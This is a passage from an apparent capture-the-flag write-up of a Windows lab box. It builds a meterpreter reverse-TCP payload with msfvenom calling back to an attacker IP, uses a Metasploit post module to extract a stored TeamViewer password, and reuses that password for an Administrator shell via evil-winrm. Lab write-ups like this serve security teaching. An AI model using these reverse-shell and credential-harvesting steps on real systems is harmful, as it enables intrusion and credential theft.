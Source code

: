 ```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.117 \
LPORT=4444 -f exe > metsh.exe
```

We can then copy that to the Remote machine as before using wget and then running the binary once we have set up a meterpreter handler in Metasploit using exploit/multi/handler and setting the options of LHOST and Payload to match what we used in msfvenom. After running the handler, we can run the meterpreter reverse shell and establish a session.

 Once in the session, we can background it and then search for TeamViewer. This gives us a module windows/gather/credentials/teamviewer\_passwords which we can then run to get the stored password:

```bash
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > search teamviewer
Matching Modules
================
 # Name Disclosure Date Rank Check Description
 - ---- --------------- ---- ----- -----------
 0 auxiliary/server/teamviewer_uri_smb_redirect normal No TeamViewer 
  Unquoted URI Handler SMB Redirect
 1 post/windows/gather/credentials/teamviewer_passwords normal 
  No Windows Gather TeamViewer Passwords
Interact with a module by name or index. For example info 1, use 1 or 
use post/windows/gather/credentials/teamviewer_passwords
msf6 exploit(multi/handler) > use 1
msf6 post(windows/gather/credentials/teamviewer_passwords) > options
Module options (post/windows/gather/credentials/teamviewer_passwords):
 Name Current Setting Required Description
 ---- --------------- -------- -----------
 SESSION yes The session to run this module on.
 WINDOW_TITLE TeamViewer no Specify a title for getting the window handle, 
 e.g. TeamViewer
msf6 post(windows/gather/credentials/teamviewer_passwords) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/credentials/teamviewer_passwords) > run
[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
[+] Passwords stored in: /root/.msf4/loot/20210106122808_default_
 10.129.1.153_host.teamviewer__511687.txt
[*] <---------------- | Using Window Technique | ---------------->
[*] TeamViewer's language setting options are ''
[*] TeamViewer's version is ''
[-] Unable to find TeamViewer's process
[*] Post module execution completed
```

This gives us the password !R3m0te!which by itself is not useful but we can see if it will work with the Administrator user using evil-winrm which it does!

```bash
┌─[✗]─[oztechmuse@parrot]─[~/boxes/Remote]
└──╼ $evil-winrm -u Administrator -p '!R3m0te!' -i remote.htb
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
remote\administrator
```
